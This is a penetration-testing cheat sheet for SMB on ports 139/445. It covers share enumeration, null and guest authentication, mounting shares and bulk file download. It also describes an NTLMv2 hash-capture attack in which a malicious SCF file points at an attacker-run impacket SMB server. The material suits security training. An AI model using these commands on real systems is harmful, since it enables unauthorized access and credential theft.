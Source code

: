 # SMB - 139/445

## SMB Information

### Port 139

Standing for Network Basic Input/Output System, NetBIOS is a networking industry standard developed by IBM, Microsoft, and Sytek. It is currently mostly used by Microsoft Windows operating systems to provide certain services to the other network hosts. NetBIOS provides services associated with the OSI model’s session layer, allowing applications on different computers to communicate over the local network. It also allows the proper transmission of data over the network. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one \(the client\) sends a command to “call” another client \(the server\) over **TCP Port 139**. 

Reference:

{% embed url="https://www.bitwarsoft.com/what-is-netbios.html" %}

### Port 445

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. **SMB** stands for ‘**Server Message Blocks**’. Server Message Block in modern language is also known as **Common Internet File System \(cifs\)**. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use the port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.** 

### IPC$ Share

The IPC$ shares and interacts with other services via named pipes. The IPC$ share can contain the following information:

* Operating System 
* Parent Domain
* Local Users and Groups
* Available SMB shares
* Effective System Security Policies



## SMB List Shares <a id="smb-list-shares"></a>

### smbmap <a id="smbmap"></a>

List SMB shares permissions:

```text
smbmap -H 10.10.10.10
```

### smbclient <a id="smbclient"></a>

List SMB shares with smbclient:

```
smbclient -L 10.10.10.10
smbclient -L \\$ip -N --option='client min protocol=NT1'
```

### crackmapexec <a id="crackmapexec"></a>

List SMB shares with crackmapexec:

```text
crackmapexec smb 10.10.10.10 --shares
```

### enum4linux <a id="enum4linux"></a>

List SMB shares with enum4linux:

```text
enum4linux 10.10.10.10
```

## SMB Authentication <a id="smb-authentication"></a>

### smbmap <a id="smbmap-2"></a>

Authenticate to a domain controller SMB share with valid credentials:

```text
smbmap -d domain.name -u username -p password -H 10.10.10.10
```

### smbclient <a id="smbclient-2"></a>

Authenticate as null:

```text
smbclient -U '' -L 10.10.10.10
```

Authenticate as the guest user:

```text
smbclient -U 'guest' -L 10.10.10.10
```

Authenticate as valid user \(type password on prompt\):

```text
smbclient -U 'username' -L 10.10.10.10
```

### crackmapexec <a id="crackmapexec-2"></a>

Authenticate as null:

```text
crackmapexec smb 10.10.10.10 --shares -u '' -p ''
```

Authenticate as a valid user with crackmapexec:

```text
crackmapexec smb 10.10.10.10 --shares -u username -p password
```

## SMB Protocol Error Fix <a id="smb-connect-to-share"></a>

Error Code:

```text
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Some servers have an OLD SMBv1 protocol in use, to accept the connection we must specify the minimum protocol version we can accept with:

```text
smbclient //$ip/share -N --option='client min protocol=NT1'
```

You can also add the following to `/etc/samba/smb.conf` under the `[global]` section:

```text
client min protocol = NT1
```

## SMB Capture NTLMv2 with SCF <a id="smb-connect-to-share"></a>

**SCF** \(Shell Command File\) are simple files that can be used to perform a connection to the attacker machine by using the **SMB** protocol. The interesting purpose of that kind of file is that they can perform a small and limited set of operations, but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit from this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim.

Create a shared folder and let it open:

```text
impacket-smbserver share $(pwd) -smb2support
```

1. Create the malicious SCF file

   ```text
   [Shell]
   Command=2
   IconFile=\\10.10.10.11\share\pentestlab.ico
   [Taskbar]
   Command=ToggleDesktop
   ```

2. Copy the malicious file in the desired victim shared resource

Check the shared folder that you have created previously and if there is an interaction between the victim and the file, you will receive the NTLMv2 hash of the victim. You can then try to crack the hash with **john or hashcat.**

## SMB Connect to Share <a id="smb-connect-to-share"></a>

### smbmap <a id="smbmap-3"></a>

Recursively list the share:

```text
smbmap -R ShareName -H 10.10.10.10
```

### smbclient <a id="smbclient-3"></a>

We can connect to share with the following example:

```text
smbclient -L //10.10.10.10/ShareName
```

## SMB Mount Share <a id="smb-mount-share"></a>

Create a directory to mount the share:

```text
sudo mkdir -p /mnt/smb
```

Mount the remote share to your machines/host without credentials:

```text
sudo mount -t cifs //10.10.10.10/ShareName/ /mnt/smb
```

Mount with valid credentials method:

```text
sudo mount -t cifs -o 'user=username,password=pass' //10.10.10.10/sharename$ /mnt/share
```

## SMB Password Spray <a id="smb-password-spray"></a>

## SMB Usage Cheatsheet <a id="smb-usage-cheatsheet"></a>

Download all files recursively without prompts:

```text
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```


